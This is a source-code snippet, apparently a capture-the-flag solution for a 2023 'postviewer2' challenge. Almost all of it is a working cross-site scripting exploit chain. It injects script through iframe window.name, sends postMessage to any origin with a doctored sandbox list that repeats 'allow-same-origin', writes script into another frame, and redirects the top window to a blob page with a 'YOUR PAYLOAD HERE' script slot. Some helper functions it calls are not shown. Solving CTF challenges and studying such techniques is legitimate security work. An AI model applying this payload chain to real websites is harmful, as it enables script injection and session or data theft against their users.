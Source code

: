``` html
  function createXssFrame() {
    console.log('createXssFrame')
    window.xssFrame = document.createElement("iframe")
    url = new URL("https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/shim.html");
    url.searchParams.set('o', window.origin);
    xssFrame.src = url
    xssFrame.sandbox = 'allow-modals allow-scripts allow-top-navigation allow-same-origin'
    xssFrame.name = `
            const blob = new Blob(['<html><head><script src="YOUR PAYLOAD HERE" /><script>alert(1)</scr' + 'ipt></head><body><div /></body></html>'], {
                type: 'text/html'
            });
            url = URL.createObjectURL(blob)
            console.log(url)
            window.top.location = url
    `;

    xssFrame.addEventListener('load', () => {
      console.log('xss frame loaded')

      window.xssFrame.contentWindow.postMessage({
        body: `
          <script>
            top.frames[1].document.open()
            console.log('writing');
            console.log('<script>' + window.parent.name + '</scr' + 'ipt>');
            top.frames[1].document.write('<script>' + window.parent.name + '</scr' + 'ipt>')
          <\/script>`, mimeType: "text/html", sandbox: ["allow-modals", "allow-scripts", "allow-top-navigation", ["allow-same-origin"], ["allow-same-origin"]]
      }, "*")
    }, { once: true });
    document.body.appendChild(xssFrame)
  }

  async function main() {
    createBombFrame()
    console.log("sleeping")
    await sleep(2000)
    console.log("creating broken frame")
    await createBrokenFrame()
    createXssFrame()
  }

  window.addEventListener('message', e => {
    console.log('got message', e, window.location.toString());
  })

  window.addEventListener('load', () => {
    main();
  })
</script>
```
